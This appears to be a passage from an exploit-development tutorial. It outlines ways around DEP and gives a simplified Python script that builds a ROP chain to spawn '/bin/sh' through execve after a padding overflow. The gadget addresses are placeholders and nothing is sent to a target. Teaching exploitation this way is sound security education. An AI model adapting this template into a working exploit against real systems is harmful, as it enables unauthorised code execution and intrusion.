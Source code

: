 ## DEP Evasion Strategies

### Return-to-libc
- Return to existing library functions
- Chain multiple function calls
- Avoid executing shellcode

### ROP/JOP Chains
- Use existing code sequences
- Chain gadgets to achieve functionality
- More complex but more reliable

### VirtualProtect/Alloc
- Change memory permissions
- Allocate executable memory
- Execute shellcode after permission change

## Practical Example

Here's a simplified example of a modern buffer overflow exploit:

```python
#!/usr/bin/env python3
import struct
import socket

def create_rop_chain():
    # ROP gadgets (addresses would be real in practice)
    pop_eax = 0x08048000
    pop_ebx = 0x08048001
    pop_ecx = 0x08048002
    pop_edx = 0x08048003
    int_80 = 0x08048004
    
    # ROP chain to call execve("/bin/sh", NULL, NULL)
    rop_chain = b""
    rop_chain += struct.pack("<I", pop_eax)    # eax = 11 (execve syscall)
    rop_chain += struct.pack("<I", 11)
    rop_chain += struct.pack("<I", pop_ebx)    # ebx = address of "/bin/sh"
    rop_chain += struct.pack("<I", 0x08049000) # "/bin/sh" string address
    rop_chain += struct.pack("<I", pop_ecx)    # ecx = NULL
    rop_chain += struct.pack("<I", 0)
    rop_chain += struct.pack("<I", pop_edx)    # edx = NULL
    rop_chain += struct.pack("<I", 0)
    rop_chain += struct.pack("<I", int_80)     # syscall
    
    return rop_chain

def exploit():
    # Create payload
    buffer_size = 64
    padding = b"A" * buffer_size
    rop_chain = create_rop_chain()
    
    payload = padding + rop_chain
    
    # Send payload (implementation depends on target)
    print(f"Payload length: {len(payload)}")
    print("Exploit payload created successfully")

if __name__ == "__main__":
    exploit()
```